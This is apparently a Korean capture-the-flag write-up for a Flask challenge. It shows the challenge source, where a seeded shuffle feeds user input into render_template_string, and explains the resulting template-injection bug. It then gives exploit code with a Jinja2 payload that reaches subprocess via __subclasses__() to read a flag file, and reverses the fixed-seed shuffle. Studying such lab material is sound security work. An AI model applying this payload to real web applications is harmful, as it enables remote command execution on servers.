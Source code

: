 259 solved / 100 pts             
           
```python
@app.post('/shout')
def shout():
    text = request.form.get('text', '')
    if not text:
        return redirect('/?error=No message provided...')

    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)

    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{% raw %}{{ error }}{% endraw %}</div>
            <div>
                Your voice echoes back: %s
            </div>
        </div>
    ''' % jumbled, error=request.args.get('error', ''))
```              
      
`render_template_string()` 함수를 사용하고 있어 SSTI 취약점이 발생한다.     

하지만, 유저가 입력한 값에 대해 `random.shuffle()`을 수행한 결과 값을 반영한다.           
           
`random.seed(0)`으로 시드 값이 고정되어있어 랜덤 값에 대해 유추가 가능하다.     
                        
### Exploit Code     
```python
import random
import requests

payload = {% raw %}"{{ ''.__class__.mro()[1].__subclasses__()[-1]('cat /app/flag.txt',shell=True,stdout=-1).communicate() }}"{% endraw %}
chars = [chr(x) for x in range(25,128)] # string.ascii_letters + string.digits
chars = chars[:len(payload)]
print(payload, len(payload), len(chars))

arr = {}
for idx, c in enumerate(chars):
    arr[c] = idx

text = ''.join(chars)
jumbled = list(text)

random.seed(0)
random.shuffle(jumbled)

jumbled = ''.join(jumbled)
print(jumbled)

s = [0 for _ in range(len(chars))]
i = 0 
for c in jumbled:
    s[arr[c]] = payload[i]
    i = i + 1

```